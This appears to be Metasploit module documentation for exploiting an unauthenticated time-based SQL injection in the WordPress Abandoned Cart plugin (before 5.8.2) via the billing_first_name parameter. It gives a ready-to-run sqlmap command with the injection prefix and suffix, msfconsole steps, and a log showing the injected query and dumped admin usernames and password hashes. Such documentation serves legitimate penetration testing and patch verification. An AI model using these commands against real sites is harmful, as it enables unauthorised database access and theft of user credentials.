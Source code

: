 ## Vulnerable Application

Abandoned Cart, a plugin for WordPress which extends the WooCommerce plugin,
prior to 5.8.2 is affected by an unauthenticated SQL injection via the
billing_first_name parameter of the save_data AJAX call.  A valid
wp_woocommerce_session cookie is required, which has at least one item in the
cart.

The plugin can be downloaded from
[here](https://downloads.wordpress.org/plugin/woocommerce-abandoned-cart.5.8.1.zip)

You'll need to first install WooCommerce and set up a shop with at least one item.
Next, install and activate Abandoned Cart.

This module slightly replicates sqlmap running as:

```
sqlmap -u http://local.target/wp-admin/admin-ajax.php --cookie='[cookies content here]' --method='POST' --data='billing_first_name=wpdeeply&billing_last_name=wpdeeply&billing_company=wpdeeply&billing_address_1=wpdeeply&billing_address_2=wpdeeply&billing_city=wpdeeply&billing_state=wpdeeply&billing_postcode=123234&billing_country=GB&billing_phone=12324&billing_email=wpdeeply%40protonmail.com&order_notes=&wcal_guest_capture_nonce=[nonce-value]&action=save_data' -p billing_first_name --prefix="', '', '','', '',( TRUE " --suffix=")) -- wpdeeply" --dbms mysql --technique=T --time-sec=1
```

## Verification Steps

1. Install the plugin on wordpress
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_abandoned_cart_sqli`
1. Do: `set rhosts [ip]`
1. Do: `set cookie [cookie]`
1. Do: `run`
1. You should get username and password hashes.

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

### COOKIE

A valid `wp_woocommerce_session` cookie, which has at least 1 item in the cart.  An example is:
`wp_woocommerce_session_d2959e58288b6133e71de74309fcabfb=257056469b604b6a005c25ea293c83f9%7C%7C1609808347%7C%7C1609804747%7C%7C499137359f4d8c16f125fba6cf58ff57`.

### COUNT

If Action `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `1`.

## Scenarios

### Wordpress 5.4.2 with WooCommerce 4.8.0 and Abandoned Cart 5.8.1 on Ubuntu 20.04 using MariaDB 10.3.22

```
resource (abandoned.rb)> use auxiliary/scanner/http/wp_abandoned_cart_sqli
resource (abandoned.rb)> set rhosts 111.111.1.111
rhosts => 111.111.1.111
resource (abandoned.rb)> set verbose true
verbose => true
resource (abandoned.rb)> set cookie "wp_woocommerce_session_d2959e58288b6133e71de74309fcabfb=257056469b604b6a005c25ea293c83f9%7C%7C1609808347%7C%7C1609804747%7C%7C499137359f4d8c16f125fba6cf58ff57"
cookie => wp_woocommerce_session_d2959e58288b6133e71de74309fcabfb=257056469b604b6a005c25ea293c83f9%7C%7C1609808347%7C%7C1609804747%7C%7C499137359f4d8c16f125fba6cf58ff57
resource (abandoned.rb)> set count 3
count => 3
resource (abandoned.rb)> run
[*] Checking /wp-content/plugins/woocommerce-abandoned-cart/readme.txt
[*] Found version You in the plugin
[+] Vulnerable version detected
[*] Nonce: b56eb3a2cb
[*] Enumerating Usernames and Password Hashes
[*] {SQLi} Executing (select group_concat(PghfuFZ) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) PghfuFZ from wp_users limit 3) eOMLbNMh)
[*] {SQLi} Time-based injection: expecting output of length 124
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/wp_abandoned_cart_sqli) > creds
Credentials
===========

host  origin         service  public  private                             realm  private_type        JtR Format
----  ------         -------  ------  -------                             -----  ------------        ----------
      111.111.1.111           admin2  $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1         Nonreplayable hash  phpass
      111.111.1.111           editor  $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/         Nonreplayable hash  phpass
      111.111.1.111           admin   $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0         Nonreplayable hash  phpass
```
